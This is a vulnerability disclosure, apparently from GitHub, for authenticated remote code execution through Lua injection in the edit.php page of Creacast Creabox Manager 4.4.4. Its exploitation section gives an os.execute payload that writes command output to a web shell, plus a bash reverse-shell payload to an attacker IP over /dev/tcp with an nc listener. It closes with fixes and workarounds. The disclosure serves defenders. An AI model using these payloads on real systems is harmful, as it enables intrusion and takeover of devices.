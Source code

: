 # Creacast Creabox Manager - Remote Code Execution (RCE)

## Description
Creacast Creabox Manager contains a critical Remote Code Execution vulnerability accessible via the `edit.php` endpoint. An authenticated attacker can inject arbitrary Lua code into the configuration, which is then executed on the server. This allows full system compromise, including reverse shell execution or arbitrary command execution.

---

## Vendor Information

- **Vendor**: CREACAST  
- **Vendor Homepage**: http://www.creacast.com/

## Product
- **Name**: Creacast Creabox Manager
- **Firmware Version**: 4.4.4

## Vulnerability Type
- Remote Code Execution (Authenticated)

## Attack Vector
- Network (Web Interface)


---


## Vulnerable Endpoint
- `/edit.php` *(Requires authentication)*

---

## Exploitation

### Prerequisites
- Attacker must be logged in (e.g., via prior [Authentication Bypass](#) or using stolen credentials)

### Proof of Concept (Command Execution)
1. Navigate to: `http://<target-ip>/edit.php`
2. Inject the following Lua code into the config:
   ```lua
   os.execute("id >> /home/www/shell.php")
   ```
3. Visit ```http://<target-ip>/shell.php``` to view command output

### Reverse Shell

- Inject this Lua payload to get a reverse shell:
```lua
os.execute("bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'")
```
* Set up a listener on the attacker machine:
```bash
nc -lvnp 4444
```
---

## Proof of Concept (PoC) for(RCE,Information Disclosure,Authentication Bypass)
https://github.com/user-attachments/assets/de63e189-2137-4521-8a32-8dc9502ae13a

---

## Impact

   * Full root access to the underlying system

   *  Remote takeover of streaming infrastructure

   *  Lateral movement within the network

---

## Suggested Fixes

   *  Sanitize and validate Lua code inputs in /edit.php

   *  Restrict or disable os.execute calls within the Lua environment

   *  Implement strict role-based access controls

   *  Log and alert on suspicious configuration changes

---

## Workarounds

   *  Restrict access to /edit.php via IP whitelisting or VPN

   *  Regularly review and audit configuration files

   *  Monitor system logs for execution of unexpected shell commands

---
